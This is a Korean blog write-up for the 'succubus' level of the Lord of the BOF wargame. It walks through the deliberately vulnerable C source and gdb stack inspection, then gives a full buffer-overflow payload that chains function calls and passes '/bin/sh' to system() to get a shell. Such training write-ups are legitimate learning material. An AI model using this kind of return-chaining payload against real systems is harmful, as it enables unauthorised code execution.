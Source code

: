 ```yaml
---
title: "[LOB]Level17. succubus"
tags: [Wargame, LOB, Write-up]
article_header:
  type: cover
  image:
    src: 
---
```


## keyword : function calls

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - succubus
        - calling functions continuously
*/

#include <stdio.h>
#include <stdlib.h>
#include <dumpcode.h>

// the inspector
int check = 0;

void MO(char *cmd)
{
    if(check != 4)
    	exit(0);

    printf("welcome to the MO!\n");

	// olleh!
	system(cmd);
}

void YUT(void)
{
    if(check != 3)
    	exit(0);

    printf("welcome to the YUT!\n");
    check = 4;
}

void GUL(void)
{
    if(check != 2)
    	exit(0);

    printf("welcome to the GUL!\n");
    check = 3;
}

void GYE(void)
{
	if(check != 1)
		exit(0);

	printf("welcome to the GYE!\n");
	check = 2;
}

void DO(void)
{
	printf("welcome to the DO!\n");
	check = 1;
}

main(int argc, char *argv[])
{
	char buffer[40];
	char *addr;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// you cannot use library
	if(strchr(argv[1], '\x40')){
		printf("You cannot use library\n");
		exit(0);
	}

	// check address
	addr = (char *)&DO;
    if(memcmp(argv[1]+44, &addr, 4) != 0){
    	printf("You must fall in love with DO\n");
        exit(0);
    }

    // overflow!
    strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // stack destroyer
	// 100 : extra space for copied argv[1]
    memset(buffer, 0, 44);
	memset(buffer+48+100, 0, 0xbfffffff - (int)(buffer+48+100));

	// LD_* eraser
	// 40 : extra space for memset function
	memset(buffer-3000, 0, 3000-40);
}
```

\x40 주소가 필터링 되어 있어 라이브러리 주소를 사용하지못한다.

```c
int memcmp(const void *s1, const void *s2, size_t n);
```

- s1의 메모리영역과  s2의 메모리 영역의 처음 n 바이트를 비교한다.
- s1 < s2 이면 0보다 작은 정수 반환
- s1 = s2 이면 0 반환
- s1 > s2 이면 0보다 큰 정수 반환

```c
void *memset(void *dest, int c, size_t count);
```

- dest의 첫번째 count바이트를 값 unsigned c로 설정한다.
- dest : 메모리의 크기를 변경할 포인터
- c : 초기화 값
- size : 초기화 길이
- dest에 대한 포인터를 리턴 / 실패시 NULL 리턴



```c
// check address
	addr = (char *)&DO;
    if(memcmp(argv[1]+44, &addr, 4) != 0){
    	printf("You must fall in love with DO\n");
        exit(0);
    }
```

```assembly
0x8048860 <main+88>:	mov    DWORD PTR [%ebp-44],0x80487ec	#addr = &DO
0x8048867 <main+95>:	push   4
0x8048869 <main+97>:	lea    %eax,[%ebp-44]	#ebp-44 = &addr
0x804886c <main+100>:	push   %eax
0x804886d <main+101>:	mov    %eax,DWORD PTR [%ebp+12] #ebp+12 = argv[1]
0x8048870 <main+104>:	add    %eax,4
0x8048873 <main+107>:	mov    %edx,DWORD PTR [%eax]
0x8048875 <main+109>:	add    %edx,44
0x8048878 <main+112>:	push   %edx
0x8048879 <main+113>:	call   0x804842c <memcmp>
```

&DO = 0x080487ec

argv[1]의 44번째부터 4byte만큼은 addr의 주소와 비교한다.

payload 시나리오 : `|dummy(44)|&DO|`

> check address는 통과했으니 전역변수 check 값을 4로 만들고 MO함수를 호출하면 될 듯 😊

check를 4로 만들기 위해서는 

1. DO 함수를 호출하여 check = 1 만들고
2. GYE함수를 호출하여 check = 2 만들고
3. GUL함수를 호출하여 check = 3 만들고
4. YUT함수를 호출하여 check = 4 만든다.

최종적으로 MO함수를 호출하면 Finish!! 👌👌👌👌👌



&main(ebp) : 0xbffffae8

&DO : 0x80487ec

&GYE : 0x80487bc

&GUL : 0x804878c

&YUT : 0x804875c

&MO : 0x8048724

payload 시나리오 : `| dummy(44) | &DO | &GYE | &GUL | &YUT | &MO |`



```c
void MO(char *cmd)
{
    if(check != 4)
    	exit(0);

    printf("welcome to the MO!\n");

	// olleh!
	system(cmd);
}
```

마지막 MO 함수는 인자값으로 cmd의 주소값을 가져온다.

함수의 인자값은 해당 함수의 ebp+8부터 시작된다. *(ebp+4는 RET영역)*

라이브러리주소를 참조 못하므로, 다른 곳에서 "/bin/sh"를 가져와야 한다.

"/bin/sh"를 가져올 수 있는 경우의 수

1. 환경변수
   - 환경변수는 main함수 밑에 arg값 밑에 환경변수가 들어간다.
   - 해당 코드에서 buffer+48+100부분부터 0xbfffffff까지 0으로 초기화 되므로 환경변수도 초기화 된다.
2. system함수 내부(라이브러리)
   - system함수는 라이브러리에 존재하는데 라이브러리는 '0x40'으로 시작된다. 이는 필러링 되고 있다.
3. main의 argv[1]
   - argv[1] 내부에 "/bin/sh"을 입력하고 해당 주소를 넣어줄 수 있다.
4. main의 argv[2]
   - argv[2] 도 buffer+48+100 부분만 넘지 않으면 가능 할 것 같다.

1번, 2번 방법을 불가능하므로, 3번 방법 argv[1]자체 내부에 "/bin/sh"를 넣고 해당 주소를 구해보자.

`|dummy(44)|&DO|&GYE|&GUL|&YUT|&MO|dummy(4)|\xbf\xbf\xbf\xbf|"/bin/sh"|`

```c
(gdb) x/32x $ebp
0xbffffa7c:	0x00000000	0x90909090	0xbfbfbfbf	0x6e69622f
0xbffffa8c:	0x0068732f	0x08048808	0x00000002	0xbffffab4
0xbffffa9c:	0x0804839c	0x0804894c	0x4000ae60	0xbffffaac
```

0xbfbfbfbf 가 들어간 이후를 보니 "'/bin/sh"문자열이 ASCII 코드로 들어가 있다. 이 주소를 구해보면 0xbffffa88 가 된다. 이 주소를 0xbfbfbfbf에 넣으면 끄읏!

```python
string = "/bin/sh"
for x in string: 
    hex(ord(x))
...
'0x2f'
'0x62'
'0x69'
'0x6e'
'0x2f'
'0x73'
'0x68'
```

&"/bin/sh" : 0xbffffab8

payload 시나리오 :

`|dummy(44)|&DO|&GYE|&GUL|&YUT|&MO|dummy(4)|\xb8\xfa\xff\xbf|"/bin/sh"|`

payload :

```sh
./succubus `python -c 'print "A"*44+"\xec\x87\x04\x08"+"\xbc\x87\x04\x08"+"\x8c\x87\x04\x08"+"\x5c\x87\x04\x08"+"\x24\x87\x04\x08"+"\x90"*4+"\xb8\xfa\xff\xbf"+"/bin/sh"'`
```



**succubus / hear to stay**